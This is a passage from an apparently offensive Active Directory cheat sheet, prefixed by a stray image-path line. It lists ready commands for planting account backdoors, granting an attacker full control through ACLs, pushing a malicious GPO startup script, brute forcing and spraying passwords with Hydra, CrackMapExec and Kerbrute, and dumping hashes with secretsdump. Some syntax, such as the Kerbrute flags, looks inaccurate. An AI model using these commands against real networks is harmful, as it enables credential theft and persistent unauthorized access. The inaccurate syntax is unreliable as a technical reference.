 - **Invoke-UserBackdoor**:
    
    ```powershell
    Invoke-UserBackdoor -UserName <username> -NewPass <password>
    ```
    

#### 3.5 Backdoor Accounts via ACLs 

- **Set DACL to Grant Attacker Control**:
    
    ```powershell
    Add-DomainObjectAcl -TargetIdentity <target_account> -PrincipalIdentity <attacker_user> -Rights All
    ```
    

#### 3.6 Persistence via Malicious GPOs 

- **Deploy Malicious GPO**:
    
    ```powershell
    Invoke-GPOInstall -Path \\<domain>\SYSVOL\<domain>\Policies\{GPO_GUID}\Machine\Scripts\Startup
    ```
    

# 4. Credential Harvesting 

#### 4.1 Brute Forcing 

- **THC-Hydra**:
    
    ```bash
    hydra -l <username> -P /path/to/passwords.txt smb://<target_ip>
    ```
    

#### 4.2 Password Spraying 

- **CrackMapExec (CME)**:
    
    ```bash
    cme smb <target_ip_range> -u username_list.txt -p password
    ```
    
- **Kerbrute (for Kerberos)**:
    
    ```bash
    ./kerbrute -domain domain.com -users users.txt -passwords passwords.txt -threads 5
    ```
    

#### 4.3 Extract Password Hashes 

- **SecretsDump (Impacket)**:
    
    ```bash
    secretsdump.py <domain>/<username>:<password>@<target_ip>
    ```
    